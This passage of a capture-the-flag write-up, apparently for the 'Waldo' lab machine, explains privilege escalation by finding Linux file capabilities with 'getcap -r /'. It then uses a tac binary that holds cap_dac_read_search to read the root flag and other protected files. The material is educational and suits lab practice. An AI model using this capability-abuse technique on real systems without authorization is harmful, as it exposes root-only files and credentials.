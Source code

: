 But how does it do it?! There is no `SUID` bit:
```
monitor@waldo:~/app-dev/v0.1$ ls -la
total 24
drwxr-x--- 2 app-dev monitor  4096 May  3  2018 .
drwxrwx--- 3 app-dev monitor  4096 May  3  2018 ..
-r-xr-x--- 1 app-dev monitor 13706 May  3  2018 logMonitor-0.1
```
Linux has a similar concept called [Capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) we can use the command `getcap` to see if the binary has any special capabilities:
```
monitor@waldo:~/app-dev/v0.1$ getcap logMonitor-0.1
logMonitor-0.1 = cap_dac_read_search+ei
```
Looking at the capabilities man page we can see that the `cap_dac_read_search` will bypass file read permissions.
```
CAP_DAC_READ_SEARCH
              * Bypass file read permission checks and directory read and
                execute permission checks;
              * invoke open_by_handle_at(2);
              * use the linkat(2) AT_EMPTY_PATH flag to create a link to a
                file referred to by a file descriptor.
```
The [getcap man page](http://man7.org/linux/man-pages/man8/getcap.8.html) also shows that we can use the `-r` argument to recursively find files with capabilities applied. So we use that against the root file system and hide any errors by passing them to `/dev/null` 
```
monitor@waldo:~/app-dev/v0.1$ getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```
There are two files on the box with capabilities, one is our log monitor which, as we have already discovered, can read log files we do not normally have permission to read. The other is a binary called `tac` which has the exact same capabilites.

Again looking at the man page for [tac](http://man7.org/linux/man-pages/man1/tac.1.html) we can see that it is basically the same as `cat` but in reverse, probably could have guessed that from the name.
```
monitor@waldo:~/app-dev/v0.1$ man tac
TAC(1)                                                                                 User Commands                                                                                 TAC(1)
 
NAME
       tac - concatenate and print files in reverse
...
```
Now that we know thi, we can use `tac` directly against the root flag to read it:
```
monitor@waldo:~/app-dev/v0.1$ tac /root/root.txt
8fb67c[REDACTED]4584f6c
```
But didn't the man page say it was `cat` in reverse? Does this mean that it also prints the file contents backwards? It is easy to test by `tac`ing a file that we know how it used to look:
```
monitor@waldo:~/app-dev/v0.1$ tac /etc/motd
                            Here's Waldo, where's root?                             
                              %@@@@&(,,,,*(#&@@@@@@,    
                            ,@@@,,,,,,,,,,,,,,,,.(@@@                         
                           .@@,,,,,,,,,,,,,...,,,,,,@@                        
                           (@(,,,.,,,,,,,,,,,,,,.,,,/@@                       
                          *@@,,,,,,,.,****,..,,,,,,,,&@@                      
                         ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,                     
                         %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                     
                        &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#                    
                        @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@                    
```